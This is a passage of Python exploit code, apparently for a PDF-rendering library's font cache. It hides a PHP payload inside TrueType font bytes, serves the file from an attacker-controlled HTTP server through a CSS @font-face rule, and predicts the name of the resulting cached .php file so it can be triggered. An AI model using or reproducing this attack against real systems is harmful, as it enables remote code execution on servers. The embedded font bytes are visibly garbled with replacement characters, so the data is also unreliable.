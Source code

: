 ```py
                b"\x00\x00\x01\x5c\x00\x00\x00\x20\x6e\x61\x6d\x65\x00\x44\x10\xef\xbf\xbd\x00\x00\x01\x7c\x00\x00\x00" \
                b"\x38\x64\x75\x6d\x32\x00\x00\x00\x00\x00\x00\x01\xef\xbf\xbd\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00" \
                b"\x00\x01\x00\x03\x00\x01\x00\x00\x00\x0c\x00\x04\x00\x20\x00\x00\x00\x04\x00\x04\x00\x01\x00\x00\x00" \
                b"\x2d\xef\xbf\xbd\xef\xbf\xbd\x00\x00\x00\x2d\xef\xbf\xbd\xef\xbf\xbd\xef\xbf\xbd\xef\xbf\xbd\x00\x01" \
                b"\x00\x00\x00\x00\x00\x01\x00\x0a\x00\x00\x00\x3a\x00\x38\x00\x02\x00\x00\x33\x23\x35\x3a\x30\x38\x00" \
                b"\x01\x00\x00\x00\x01\x00\x00\x17\xef\xbf\xbd\xef\xbf\xbd\x16\x5f\x0f\x3c\xef\xbf\xbd\x00\x0b\x00\x40" \
                b"\x00\x00\x00\x00\xef\xbf\xbd\x15\x38\x06\x00\x00\x00\x00\xef\xbf\xbd\x26\xdb\xbd\x00\x0a\x00\x00\x00" \
                b"\x3a\x00\x38\x00\x00\x00\x06\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x4c\xef\xbf\xbd\xef" \
                b"\xbf\xbd\x00\x12\x04\x00\x00\x0a\x00\x0a\x00\x3a\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
                b"\x00\x00\x00\x00\x02\x04\x00\x00\x00\x00\x44\x00\x0a\x00\x00\x00\x00\x00\x0a\x00\x00\x00\x01\x00\x00" \
                b"\x00\x02\x00\x03\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
                b"\x00\x00\x00\x00\x00\x00\x04\x00\x36\x00\x03\x00\x01\x04\x09\x00\x01\x00\x02\x00\x00\x00\x03\x00\x01" \
                b"\x04\x09\x00\x02\x00\x02\x00\x00\x00\x03\x00\x01\x04\x09\x00\x03\x00\x02\x00\x00\x00\x03\x00\x01\x04" \
                b"\x09\x00\x04\x00\x02\x00\x00\x00\x73\x00\x00\x00\x00\x0a"

    PHP_CODE = php.encode()
    TTF_RAW_DATA = TTF_BYTES + b"<?php %b ?>" % PHP_CODE

    font_filename = 'exploit_font.php'
    with open(font_filename, 'wb') as f:
        f.write(TTF_RAW_DATA)

    FONT_URL = f'http://{ip}:8000/{font_filename}'
    FONT_FAMILY = RND_STR
    FONT_STYLE = 'normal'
    
    CSS_FILE = "@font-face {\n" \
              f"  font-family:'{FONT_FAMILY}';\n" \
              f"  src:url('{FONT_URL}');\n" \
               "  font-weight:'normal';\n" \
              f"  font-style:'{FONT_STYLE}';\n" \
               "}"
    
    css_filename = f'{RND_STR}.css'
    with open(css_filename, 'w') as f:
        f.write(CSS_FILE)

    hash_object = hashlib.md5(FONT_URL.encode())
    MD5_SUM = hash_object.hexdigest()

    cache_filename = FONT_FAMILY + "_" + FONT_STYLE + "_" + MD5_SUM + '.php'

    return cache_filename, css_filename, font_filename

def start_http_server(port):
    try:
        socketserver.TCPServer.allow_reuse_address = True
        Handler = http.server.SimpleHTTPRequestHandler
        httpd = socketserver.TCPServer(("", port), Handler)

```